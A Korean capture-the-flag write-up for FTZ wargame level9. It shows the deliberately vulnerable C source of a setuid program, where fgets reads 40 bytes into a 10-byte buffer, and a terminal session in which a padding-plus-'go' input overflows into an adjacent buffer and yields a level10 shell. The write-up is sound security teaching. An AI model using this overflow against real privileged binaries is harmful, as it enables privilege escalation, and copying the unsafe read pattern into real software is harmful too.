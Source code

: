 ```yaml
---
title: "[FTZ] level9 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level9 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level9 풀이
{: .notice--warning}


# 문제

계정 : level9/apple

**hint**
```c
다음은 /usr/bin/bof의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}

이를 이용하여 level10의 권한을 얻어라.
```

# 풀이

bof를 이용해서 buf2에 데이터가 buf데이터를 덮어써야 합니다.

우선 buf2와 buf 가 각각 몇바이트 만큼 할당 받았는지 확인 합니다.

gdb를 실행하려고 하니, permission denied가 나옵니다. 

그냥 몇개 안되니 brute force를 해봅니다.

데이터의 할당은 4바이트 단위로 되기 때문에 12, 16 , 20 .. 이렇게 수행을 합니다.

다음과 같이 16개의 A로 덮어쓴 뒤에 쉘을 획득할 수 있었습니다.

```sh
[level9@ftz level9]$ /usr/bin/bof
It can be overflow : AAAAAAAAAAAAgo
[level9@ftz level9]$ /usr/bin/bof
It can be overflow : AAAAAAAAAAAAAAAAgo
Good Skill!
[level10@ftz level9]$ id
uid=3010(level10) gid=3009(level9) groups=3009(level9)

```

![image](https://user-images.githubusercontent.com/33647663/167300634-e8336996-5095-4d2b-b04d-422a99991637.png)



